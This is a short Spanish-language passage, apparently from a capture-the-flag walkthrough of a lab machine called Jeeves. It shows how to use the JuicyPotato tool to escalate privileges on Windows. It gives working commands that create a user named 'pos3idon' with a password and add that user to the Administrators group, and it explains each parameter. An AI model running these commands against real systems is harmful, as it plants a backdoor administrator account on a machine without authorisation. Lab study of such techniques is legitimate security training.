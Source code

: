 ![](ss/Jeeves/priv1.png)
## Juicy Potato

Para hacer uso de esta herramienta lo que tenemos que hacer es descargar el [[JuicyPotato]].exe de el repositorio de Github y una vez descargado lo vamos a copiar en la maquina windows por SMB.

Una vez ya tengamos el ejecutable.exe en el sistema:

Crear un nuevo usuario.

```
JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net user pos3idon pos3idon123$! /add" -l 1234
```

- `JuicyPotato.exe`: Es el ejecutable de la herramienta Juicy Potato.
- `-t *`: Especifica el tipo de tokens de seguridad a usar. En este caso, el asterisco (*) indica que se intentará usar cualquier token disponible.
- `-p c:\Windows\System32\cmd.exe`: Especifica el programa que se ejecutará con los privilegios elevados.
- `-a "/c net user pos3idon pos3idon123$! /add"`: Es el argumento que se pasará al programa especificado en el parámetro `-p`. En este caso, se está ejecutando el comando `net user` para agregar un nuevo usuario llamado "pos3idon" con la contraseña "pos3idon123$!".
- `-l 1234`: Especifica el puerto local que se utilizará para la comunicación.

Este comando intenta aprovechar una vulnerabilidad en el servicio "Local Service" de Windows para ejecutar el comando `net user` con privilegios elevados y agregar un nuevo usuario al sistema con el nombre "pos3idon" y la contraseña "pos3idon123$!".


Agregar usuario nuevo al grupo Administrators

```
JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net localgroup Administrators pos3idon /add" -l 1234
```
